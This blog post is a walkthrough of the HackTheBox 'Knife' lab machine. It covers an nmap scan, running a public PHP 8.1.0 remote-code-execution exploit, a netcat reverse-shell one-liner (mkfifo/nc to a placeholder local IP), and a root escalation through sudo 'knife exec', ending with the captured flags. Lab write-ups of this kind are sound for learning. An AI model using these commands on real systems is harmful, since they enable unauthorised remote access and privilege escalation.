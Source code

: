 +++
title = "Knife Machine"
date = "2021-08-29T13:26:11+05:30"
author = "Somesh Banerjee"
authorTwitter = "banerjee_somesh"
cover = ""
tags = ["InfoSec", "HackTheBox"]
keywords = ["Linux", "knife", "RCE"]
description = ""
showFullContent = false
readingTime = true
+++
OS: Linux\
Points: 20\
Difficulty: Easy

ip=10.10.10.242

## User solution
The first thing is to do the nmap scan.
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ip=10.10.10.242

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ ports=$(nmap -p- --min-rate=1000 -T4 $ip | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

┌──(kali㉿kali)-[~/HTB/Knife]
└─$ nmap -sC -sV -p$ports $ip -oA nmap_result
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-26 10:29 EDT
Nmap scan report for 10.10.10.242
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.72 seconds
```
Now lets look at website at port 80. \
From the nmap scan we know that the server uses Apache 2.4.41 and Ubuntu OS. Using Wappalyzer we found it also uses PHP 8.1.0.\

There is a RCE exploit for PHP 8.1.0. Download it from [exploit-db](https://www.exploit-db.com/exploits/49933).

Run the exploit and got the flag
```console
┌──(kali㉿kali)-[~/HTB/Knife]
└─$ python3 exploits/49933.py
Enter the full host url:
http://10.10.10.242/

Interactive shell is opened on http://10.10.10.242/
Can't acces tty; job crontol turned off.
$ whoami
james

$ pwd
/

$ cd /home/james; ls; cat user*
authorized_keys
hello
hello.rb
user.txt
aec6c92f2b998dc3912f334ac0c69ed5
```
## Root solution
Before procedding lets get a reverse shell at port 5454 with `mkfifo /tmp/f; nc <local-ip> 5454 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f` and run `nc -lvnp 5454` before running the command.

I was unable to do the root part while the machine was active. Later from a help I realized I forgot to check GTFObins.

Coming to the process first we have to see which executables we can run as sudo.
```console
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

```
Search GTFObins for knife you will get a command for shell
```console
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cat root/root.txt
b1c946e0dcc0715cb9039799fe824278
```
